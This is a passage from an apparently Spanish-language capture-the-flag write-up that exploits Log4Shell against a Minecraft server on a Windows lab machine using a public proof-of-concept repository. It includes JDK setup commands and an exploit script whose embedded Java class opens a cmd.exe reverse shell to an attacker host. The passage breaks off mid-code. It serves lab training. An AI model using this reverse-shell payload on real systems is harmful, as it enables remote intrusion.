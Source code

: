 ![tlauncher](/crafty/tlauncher.png)

Luego, se debe ingresar a la opción de **multijugador** y configurar el servidor con la **IP de la máquina** para poder conectarse al mismo.


![multi](/crafty/multi.png)

![server](/crafty/config.png)

![configserver](/crafty/configserver.png)


Por último, solo queda seleccionar el servidor y conectarse dándole clic.


![unirse](/crafty/unirse.png)

Por otro lado, para realizar el ataque se hace uso del repositorio de [**kozmer**](https://github.com/kozmer/log4j-shell-poc), en donde se indica que se debe contar con la versión de **Java** [`jdk1.8.0_20`](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html), por lo que se debe descargarla y ubicarla con el nombre indicado.


```bash
 tar -xf jdk-8u20-linux-x64.tar.gz
```
{: .nolineno}


```bash
mv  jdk-8u20-linux-x64 jdk1.8.0_20
 ```
{: .nolineno}

Al realizar esta **configuración**, solo queda **lanzar** el **ataque**. Sin embargo, es necesario tener en cuenta que se debe realizar una **configuración previa** dentro del **script** de **Python**. Esto se debe a que está lanzando un `/bin/bash` dentro del equipo, pero como la máquina es un **Windows**, esto se debe cambiar por `cmd.exe` o `powershell.exe`.

```python
#!/usr/bin/env python3

program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="cmd.exe";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
```